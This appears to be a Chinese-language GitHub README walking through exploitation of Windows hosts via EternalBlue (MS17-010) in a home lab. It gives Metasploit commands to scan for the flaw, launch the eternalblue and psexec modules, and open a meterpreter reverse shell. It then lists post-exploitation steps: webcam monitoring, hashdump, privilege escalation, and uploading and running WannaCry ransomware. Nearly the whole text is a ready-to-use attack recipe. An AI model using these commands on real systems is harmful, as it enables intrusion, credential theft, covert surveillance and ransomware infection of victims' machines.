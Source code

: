 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open \ 
也可以用 \
nmap -n -p445 192.168.43.2 \
>nmap ms17-010    定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
msfconsole \
>进入msf> \
version \
>确保MS \
>架版本在 4.14.17以上,否则请apt-get install,search search ms17_010 \
>漏洞模块路径查询，搜索到了 4 个相关的插件： \
>auxiliary/admin/smb/ms17_010_command \
>auxiliary/scanner/smb/smb_ms17_010 \
>exploit/windows/smb/ms17_010_eternalblue \
>exploit/windows/smb/ms17_010_psexec \
>其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
>注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
use exploit/windows/smb/ms17_010_eternalblue \
>调用攻击模块 \
options \
>查看参数,并设置： \
set RHOST 192.168.43.2 \
>设定攻击目标  \
show payloads \
>查看详细信息 \
set payload windows/x64/meterpreter/reverse_tcp \
>配置攻击载荷  \
set LHOST 192.168.43.1 \
>设置操作机地址,即kali本机地址 \
exploit \
>发起攻击,也可以用run。出现win -success!就成功了。

## 可以试试以下操作，或者help
getuid，sysinfo \
>查看系统信息 \
webcam_list \
>看看被控制的电脑有没有摄像头,如果有用webcam_stream命令可以打开摄像头监控 \
route \
>查看路由表 \
screenshot \
>桌面截图，很卡 \
shell \
>打开命令行，然后可以ipconfig/whoami/net user \
ps \
>看看开了哪些杀毒软件，内网一致 \
kill \
hashdump \
getsystem \
>提权 \
upload wcry/wcry.ext c:\ \
upload wcry/FILE_ID.DIZ c:\ \
execute -f c:\wcry.exe \
>上传和执行勒索病毒

## 使用msf框架攻击win32
use exploit/windows/smb/ms17_010_psexec \
set RHOST 192.168.43.3 \
set payload windows/meterpreter/reverse_tcp \
show options \
查看设置好的参数 \
set LHOST 192.168.43.1 \
set SMBUser aleecy \
>32位机的账号 \
set SMBPass 0 \
>32位机的密码 \
exploit


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
/etc/init.d/postgresql restart \
reload_all

